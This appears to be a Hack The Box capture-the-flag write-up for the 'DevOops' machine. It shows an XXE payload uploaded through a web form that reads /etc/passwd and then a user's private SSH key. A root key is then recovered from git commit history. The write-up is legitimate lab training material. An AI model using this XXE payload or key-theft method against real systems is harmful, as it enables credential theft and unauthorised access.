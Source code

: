 # DevOops

>skills this box involved:
- enumeration  
- git command use
- XXE file read
# USER
After carrying out our nmap scan we procede to the web browser to open up the http service and run a dirbuster scan on it
we can see that it comes back with two results.
```
/feed
/upload
```
Navigating to feed shows a static page and therefore nothing interesting however on the upload page there is a upload section where it allows us to upload xml files. We can now start creating a payload to get us code execution. We loads up burpSuite and intercept the request. The website mentions that we must have Author, Subject and Content tags in our xml so of course we add these.
```xml
<test>
  <Author>fieldraccoon</Author>
  <Subject>fieldraccoon</Subject>
  <Content>fieldraccoon</Content>
</test>
```
this is the data we add to our initial payload and we get a request back form the server.
```
PROCESSED BLOGPOST: 
  Author: fieldraccoon
 Subject: fieldraccoon
 Content: fieldraccoon
 URL for later reference: /uploads/exploit.xml
 File path: /home/roosa/deploy/src
 ```
 We see that there is a user called roosa in the file path. This is the user for this box. We now modify our payload to try and get code execution. This is the exploit:
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>

<test>
  <Author>fieldraccoon</Author>
  <Subject>&file;</Subject>
  <Content>fieldraccoon</Content>
</test>
```
This reads the /etc/passwd file and confirms that the user roosa is the correct person we are after for this box.
We now try to grab the ssh key for the user by changing `file:///etc/passwd` to `file:///home/roosa/.ssh/id_rsa` This works perfectly and we read the ssh key. we copy this file to our box and ssh as roosa and read the user flag.

# ROOT
as we ssh we find that there is a git directory in /home/roosa/work/blogfeed/.git
we run `git log` to see if we find anything interesting and luckily we do.
```xml
commit 33e87c312c08735a02fa9c796021a4a3023129ad
Author: Roosa Hakkerson <roosa@solita.fi>
Date:   Mon Mar 19 09:33:06 2018 -0400

    reverted accidental commit with proper key
```
This means that the user had an old ssh key reverted(its the root ssh key) so we need to try and find a way to get this.
We run `git show 33e87c312c08735a02fa9c796021a4a3023129ad` and it shows us the root key,
We copy it to our box once again, give it appropriate permissions and ssh as root.

Please drop me some respecet if you found my writeup worth the read :)

https://www.hackthebox.eu/home/users/profile/246314

